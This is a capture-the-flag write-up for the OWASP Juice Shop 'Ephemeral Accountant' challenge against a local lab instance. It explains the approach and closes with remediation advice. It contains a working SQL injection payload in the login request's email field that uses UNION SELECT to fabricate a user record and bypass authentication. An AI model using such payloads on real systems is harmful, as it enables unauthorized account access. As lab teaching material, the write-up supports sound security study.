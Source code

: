 # Juice-Shop Write-up: Ephemeral Accountant

## Challenge Overview

**Title:** Ephemeral Accountant  
**Category:** Injection  
**Difficulty:** ⭐⭐⭐⭐ (4/6)

This challenge involves using SQL injection to simulate the login of a non-existent but temporarily created user "acc0unt4nt@juice-sh.op" without actually adding the account to the database permanently.

## Tools Used

- **Interception Proxy (e.g., Burp Suite):** To capture and modify the HTTP requests.

## Methodology and Solution

### Step 1: Analysis of Login Functionality

Initially, I captured the typical HTTP POST request used for logging in which looks something like this:

```http
POST /rest/user/login HTTP/1.1
Host: 127.0.0.1:3000
Content-Type: application/json

{
  "email": "user@example.com",
  "password": "password123"
}
```

### Step 2: Crafting the SQL Injection Payload

Given the constraints of the challenge (no actual account creation and no persistent modification of the database), I opted for an SQL injection using the `UNION SELECT` strategy to mimic the existence of an account temporarily during the query execution time.

### Step 3: Injecting the Temporary User in the SQL Query

I modified the login request payload to include the SQL injection. The key here was to construct a subquery within the UNION SELECT that mimics a legitimate user record:

```http
POST /rest/user/login HTTP/1.1
Host: 127.0.0.1:3000
Content-Type: application/json

{
  "email": "' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test1234' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--",
  "password": "test1234"
}
```

We observe that the server responsde with a JWT token, meaning that he accepted our connection :

<img src="../assets/difficulty4/ephemeral_accountant_2.png" alt="decrypting coupons" width="500px">

### Solution Explanation

This SQL injection effectively creates a temporary row in the database for the duration of the query. The `UNION SELECT` clause constructs a complete user record, mirroring the structure expected by the application's login processing logic. By setting the `email` field in the injection to match the SQL query expected to retrieve a user, the application processes this "ephemeral" user as if it were legitimately present in the database.

The `WHERE '1'='1'` condition ensures that the injection always succeeds in matching the query context, bypassing the normal authentication process, and the comment `--` ensures any subsequent part of the real SQL query is ignored.

### Remediation

- **Use of Prepared Statements:** Always use parameterized queries or prepared statements to handle SQL queries. This approach ensures that the SQL execution engine treats the inputs as data rather than executable code.
- **Use SQL Server-side verification:** Ensure that the account where user will log really exist in database by double checking it server-side.
- **Input Validation:** Rigorous validation of all user inputs can reduce the risk of injection attacks. Inputs should be checked against expected patterns and sanitized.
